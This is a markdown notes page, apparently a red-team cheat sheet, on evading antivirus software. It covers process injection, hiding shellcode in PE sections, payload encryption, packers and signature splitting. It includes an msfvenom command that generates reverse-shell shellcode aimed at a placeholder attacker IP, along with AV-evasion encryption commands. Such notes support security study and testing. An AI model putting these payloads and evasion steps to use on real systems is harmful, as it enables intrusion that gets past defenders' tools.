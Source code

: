```yaml
---
title: Antivirus evading techniques
---
```


- [1. Process Injection](#1-process-injection)
  - [1.1. Memory execution tricks](#11-memory-execution-tricks)
- [2. Shellcode](#2-shellcode)
  - [2.1. Shellcode hiding](#21-shellcode-hiding)
  - [2.2. Custom shellcode](#22-custom-shellcode)
  - [2.3. Shellcode generating](#23-shellcode-generating)
  - [2.4. Staged vs stageless](#24-staged-vs-stageless)
  - [2.5. Encoding \& Encryption](#25-encoding--encryption)
- [3. Packers](#3-packers)
- [4. Signature evasion](#4-signature-evasion)
- [5. Dynamic loading of WinAPI DLLs](#5-dynamic-loading-of-winapi-dlls)
- [6. WinAPI Unhooking](#6-winapi-unhooking)
- [7. Position Independent Code (PIC)](#7-position-independent-code-pic)

## 1. Process Injection
_Process Injection__ is a term to describe injecting malicious code into a legitimate process (existing or created) through legitimate Windows functionalities, bypassing EDRs and AVs.

There is [a lot of different techniques](https://attack.mitre.org/techniques/T1055/) to perform the process injection using different Windows components.

Almost all process injections can be reduced into following steps:

1. Open/create a target process.
2. Inject the shellcode to the target process memory.
3. Execute the shellcode.

### 1.1. Memory execution tricks
Standard `CreateThread` and `CreateRemote Thread` functions could be monitored by an EDR. There is couple tricks how to execute code in a different way:

- Invoking function pointers
- Asynchronous Procedure Calls
- PE section manipulation

## 2. Shellcode
Shellcode is a set of machine code instructions that creates a reverse command shell (in most cases). Usually it is stored as an array of bytes within the source code but there are different techniques how to hide it within the PE structures.

### 2.1. Shellcode hiding
Understanding of the _Portable Executable_ (PE) structure allows us to manipulate the location where the shellcode is stored in the EXE file. We can control in which _data_ section to store our shellcode by how we define and initialize the shellcode variable. The shellcode must be stored within the file but the exact location might be controlled in order to evade AV software.

- **Local variable** within the function - _.TEXT_ section.
- **Global variable** - _.DATA_ section.
- **Raw binary in an icon image** - _.RSRC_ section.
- **Custom section** - created custom data section.

### 2.2. Custom shellcode
Shellcode is generally written in Assembly and translated into hex opcodes. Writing custom shellcode helps in evading AV software significantly. Majority of low-cost malware uses just generic shellcode well-known by any AV software.

### 2.3. Shellcode generating
There is a lot of tools intended to generate a shellcode. Generic shellcode is usually well detected by AV software. Most C2 frameworks provide their own shellcode generator compatible with the C2 platform.

```bash
# Generate C-style array of bytes with the reverse-shell Windows shellcode
msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=<attacker-ip> LPORT=<attacker-port> -f c
```

> **NOTE**: `Msfvenom` has a lot more payloads than just a reverse-shell connection (e.g. windows/adduser).

### 2.4. Staged vs stageless
A **stageless payload** embeds the final shellcode directly into the EXE file. It's a packaged app that executes the shellcode in a single-step process. It doesn't require any additional network connection but there is a bigger footprint on disk.

A **staged payload** works by using intermediary shellcodes that act as steps leading to the execution of a final shellcode. Each of these intermediary shellcodes is known as a stager, and its primary goal is to provide a means to retrieve the final shellcode and execute it eventually. It's a technique used to evade AV software. Usually there are 2 stages of the shellcode delivery. It requires network connection but there is a smaller footprint on disk.

Using `msfvenom` tool `windows/x64/shell_reverse_tcp` means _stageless_ and `windows/x64/shell/reverse_tcp` means _staged_ payload.

### 2.5. Encoding & Encryption
Some kind of encoding or encryption is a great way to evade binary static analysis. Especially generic well-known shellcodes generated using `msfvenom` needs to be somehow additionally protected. Nowadays most of the AV software is able to decode common encoding algorithms. `Msfvenom` has a bit scarce list of available encryption algorithms.

```bash
# List available algorithms
msfvenom --list encrypt

# Add payload encryption
msfvenom [payload-args] --encrypt aes256 --encrypt-key "<ENCRYPTION-KEY>"
```

> **NOTE**: Default `msfvenom` payloads are almost fully-detectable by AV software, even if it's encrypted. It doesn't mean that `msfvenom` is completely useless. Custom chain of encryption and encoding can still do the job.

## 3. Packers
Packers are software that transform the program so that its structure looks different, but their functionality remains the same. Packers are obfuscating the final PE structure, the code and compress it. Apart from malware development, they are used to protect the software from being reverse engineered or cracked. Most common packers: `UPS`, `MPRESS`, `Themida`. Sometimes they add some anti-debbuging code.

The packers embed a code stub that contains an unpacker and redirect the main entry point to it. If the unpacker has a known signature, AV solutions might still detect any packed executable based on the unpacker stub only. In-memory unpacked payload still can be detected by memory scanning but it can be evaded with _anti-vm_ techniques.

## 4. Signature evasion
AV software tries to identify pre-defined signatures in a PE file which can indicate a potential threat. Spliting malicious EXE into smaller and smaller halfs (and running AV scan against them) we can identify chain of bytes that causes AV detection alert.

```powershell
# Check the provided file for a malware signature
ThreatCheck.exe -f <FILE_TO_SCAN> -e AMSI

# Another tool
amsitrigger.exe -i <FILE_TO_SCAN> -f 3
```

## 5. Dynamic loading of WinAPI DLLs
All identifiers of WinAPI functions being used are stored in the _Import Address Table_ (IAT) in a PE file header _IMAGE\_OPTIONAL\_HEADER_. To obtain the function pointer to the WinAPI functions we can load DLLs dynamically at runtime (`kernel32.dll` or `ntdll.dll`).

```cpp
// Load DLL at runtime
HMODULE h = LoadLibraryA("kernel32.dll");

// Get function from DLL
myFunc myFuncPtr = GetProcAddress(h, "<FUNCTION_NAME>");
```

Of course `LoadLibraryA` and `GetProcAddress` functions are still present in the IAT.

## 6. WinAPI Unhooking
TBD

## 7. Position Independent Code (PIC)
TBD
